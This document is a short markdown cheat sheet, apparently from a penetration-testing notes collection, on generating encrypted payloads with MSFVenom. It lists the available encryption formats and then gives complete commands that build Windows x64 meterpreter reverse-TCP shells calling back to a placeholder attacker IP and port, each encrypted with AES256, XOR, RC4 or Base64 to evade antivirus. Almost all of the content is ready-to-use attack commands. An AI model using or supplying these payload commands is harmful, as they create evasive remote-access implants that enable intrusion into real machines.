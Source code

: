 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - command-line
  - windows
  - metasploit-framework
---
```

# MSFVenom

List of encryption methods.

```
$ msfvenom -l encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

Generating and encrypting payloads using the `--encrypt` flags.

## AES256


> [!NOTE]
> For AES256 encryption that the key (using flag `--encrypt-key`) must be exactly 32 bytes of length and the IV (using flag `--encrypt-iv`) must be 16 bytes of length.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt aes256 --encrypt-key 0123456789abcdefghijklmnopqrstuv --encrypt-iv 1234567890abcdef -f c -o payload_aes.c
```

## XOR

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt xor --encrypt-key x0rk3y -f c -o payload_xor.c
```

## RC4

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt rc4 --encrypt-key "rc4passw0rd\!" -f c -o payload_rc4.c

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw | openssl enc -provider legacy -rc4 -nosalt -k "rc4passw0rd\!" -out payload_rc4.bin
```

## Base64

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt base64 -f raw
```

---
## References

### Rapid7

- [Rapid7: How to XOR with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-XOR-with-Metasploit-Framework-Compiler)

- [Rapid7: How to RC4 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decrypt-RC4-with-Metasploit-Framework-Compiler)

- [Rapid7: How to decode Base64 with Metasploit Framework Compiler](https://github.com/rapid7/metasploit-framework/wiki/How-to-decode-Base64-with-Metasploit-Framework-Compiler)